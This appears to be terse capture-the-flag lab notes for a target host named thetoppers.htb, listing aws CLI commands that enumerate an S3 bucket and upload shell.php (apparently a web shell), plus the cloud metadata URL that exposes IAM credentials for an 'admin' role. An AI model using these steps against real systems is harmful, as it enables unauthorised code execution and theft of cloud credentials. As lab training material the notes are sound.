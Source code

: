 # Table of contents

- [Enumeration](#enumeration)



aws --endpoint=http://s3.thetoppers.htb s3 ls
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb/
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb/

AWS metaservice instance
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/
